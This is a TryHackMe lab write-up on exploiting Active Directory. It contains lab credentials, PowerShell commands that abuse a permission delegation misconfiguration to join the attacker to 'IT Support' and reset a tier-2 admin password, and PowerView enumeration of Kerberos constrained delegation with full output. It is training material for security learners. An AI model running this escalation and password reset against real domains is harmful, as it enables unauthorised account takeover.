 ## Exploiting Active Directory

### Exploiting Permission Delegation 

``` Your credentials have been generated: Username: laura.wood Password: C6j4BhcW ```


Bloodhound shows misconfiguration in AD allowing Domain Users to add themselves to IT Support, which in turn delegates permission to reset a t2 admin password

![bloodhound](/TryHackMe/Exploiting%20AD%20Task%202.png)

```posh
#Add our user to IT Support
Add-ADGroupMember "IT Support" -Members "laura.wood"
```

```posh
#Verify user has been successfully added
Get-ADGroupMember -Identity "IT Support" 
```

Run ``` gpupdate /force ```  then reconnect to the remote session to ensure permissions propogate

```posh
#Reset password for a user in 
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_caroline.dawson" -Reset -NewPassword $Password
```

RDP from AttackBox to locate the flag

``` THM{Permission.Delegation.FTW!} ```

### Exploiting Kerberos Delegation

```console
PS C:\Users\laura.wood> Import-Module C:\Tools\PowerView.ps1 
PS C:\Users\laura.wood> Get-NetUser -TrustedToAuth 


logoncount               : 37
badpasswordtime          : 1/1/1601 12:00:00 AM
distinguishedname        : CN=IIS Server,CN=Users,DC=za,DC=tryhackme,DC=loc
objectclass              : {top, person, organizationalPerson, user}
displayname              : IIS Server
lastlogontimestamp       : 8/27/2022 8:35:32 PM
userprincipalname        : svcIIS@za.tryhackme.loc
name                     : IIS Server
objectsid                : S-1-5-21-3885271727-2693558621-2658995185-6155
samaccountname           : svcIIS
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 8/27/2022 7:35:32 PM
instancetype             : 4
usncreated               : 78494
objectguid               : 11e42287-0a25-4d73-800d-b62e2d2a2a4b
sn                       : Server
lastlogoff               : 1/1/1601 12:00:00 AM
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=tryhackme,DC=loc
dscorepropagationdata    : 1/1/1601 12:00:00 AM
serviceprincipalname     : HTTP/svcServWeb.za.tryhackme.loc
givenname                : IIS
lastlogon                : 8/28/2022 8:09:12 AM
badpwdcount              : 0
cn                       : IIS Server
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated              : 4/27/2022 11:26:21 AM
primarygroupid           : 513
pwdlastset               : 4/29/2022 11:50:25 AM
usnchanged               : 147502
```
